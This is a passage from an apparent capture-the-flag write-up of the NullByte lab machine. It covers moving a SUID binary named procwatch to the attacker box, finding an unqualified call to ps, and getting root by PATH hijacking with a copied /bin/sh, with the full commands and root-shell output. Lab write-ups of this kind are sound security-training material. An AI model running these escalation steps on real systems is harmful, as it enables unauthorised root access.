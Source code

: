 ```console
 1730 pts/0    00:00:00 sh
 1731 pts/0    00:00:00 ps
```

Then I transfer the binary file to the attacking machine to analyze it.

```console
ramses@NullByte:/var/www/backup$ cp procwatch ../html/uploads/

root@kali:~$ wget 192.168.179.152/uploads/procwatch
```

With cutter I analyzed the binary file, this is a reverse engineering tool, you can download it [here](https://cutter.re/), in the following image we can see that the command **ps** (is in little endian) is being executed without the absolute path, so we can hijack the path.

![](/assets/images/nullbyte/screenshot-11.png)

## Privilege Escalation
### Path Hijacking

I created a copy of shell binary as the ps command into the tmp directory, gave it execute permissions, exported the $PATH environment variable and executed it, as we see I got root.

```console
ramses@NullByte:/var/www/backup$ cat /bin/sh > /tmp/ps
ramses@NullByte:/var/www/backup$ chmod 755 /tmp/ps 
ramses@NullByte:/var/www/backup$ export PATH=/tmp:$PATH
ramses@NullByte:/var/www/backup$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
# whoami
root
```
